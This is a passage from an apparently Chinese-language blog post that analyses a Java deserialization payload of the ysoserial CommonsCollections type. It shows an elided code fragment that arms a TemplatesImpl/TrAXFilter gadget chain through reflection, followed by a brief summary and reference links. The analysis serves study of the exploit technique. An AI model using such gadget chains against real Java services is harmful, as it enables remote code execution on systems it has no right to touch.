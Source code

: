     ```
    TemplatesImpl templates = Gadgets.createTemplatesImpl(command);
    ...............
    // grab defensively copied arrays
    paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
    args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");
    ..............
    // swap in values to arm
    Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
    paramTypes[0] = Templates.class;
    args[0] = templates;
    ...................
    
    ```

照例生成`PriorityQueue<Object> queue`后，使用反射机制对其属性进行修改。保证成功生成payload。

个人总结：payload分析完了，里面涉及的方法很巧妙。也有许多共同的利用特性，值得学习~~

0x03 参考资料
=====

*   [http://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/](http://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/)
*   [http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/")
*   [https://github.com/angelwhu/ysoserial-test/](https://github.com/angelwhu/ysoserial-test/ "https://github.com/angelwhu/ysoserial-test/")